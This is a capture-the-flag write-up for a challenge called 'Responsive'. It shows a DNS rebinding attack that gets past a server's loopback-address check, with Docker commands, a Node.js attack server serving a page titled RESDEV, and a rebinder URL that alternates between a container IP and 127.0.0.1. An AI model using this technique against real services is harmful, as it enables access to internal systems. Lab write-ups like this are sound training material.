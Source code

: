 # Responsive

* `docker build -t exploit .`
* `docker run --rm -p 80:80 exploit`

This challenge uses a web browser (Firefox for iOS) to access our website. This is essentially a baby DNS rebinding challenge. Our server needs RESDEV in the title, so let's just set up a simple JS server with node.

```Javascript
const url = require('url')
const http = require('http')

exploit_template = `
<html>
<title>RESDEV</title>
<head>Example</head>
<body>
    Hello world!
</body>
</html>`

const handler = (req, res) => {
    console.log("GET request");
    res.statusCode = 200;
    res.end(exploit_template);
}

const server = http.createServer(handler).listen(80, '0.0.0.0', (err) => {
    if (err) throw err
    console.log(`Attack server is listening on 80`)
})
```

We can then use Tavis Ormandy's website for testing DNS rebinding at Project Zero.

https://lock.cmpxchg8b.com/rebinder.html

Plugging in our server's IP address we get a URL like the one below:

```
http://7f000001.ac110002.rbndr.us/
```

If we submit this URL multiple times, one of those times the server will first resolve our URL to 172.17.0.2 which it verifies is not a loopback address. The server then opens a browser which asks what IP the URL is at. This second DNS request will resolve to 127.0.0.1, bypassing the initial check and returning a screenshot of the flag.
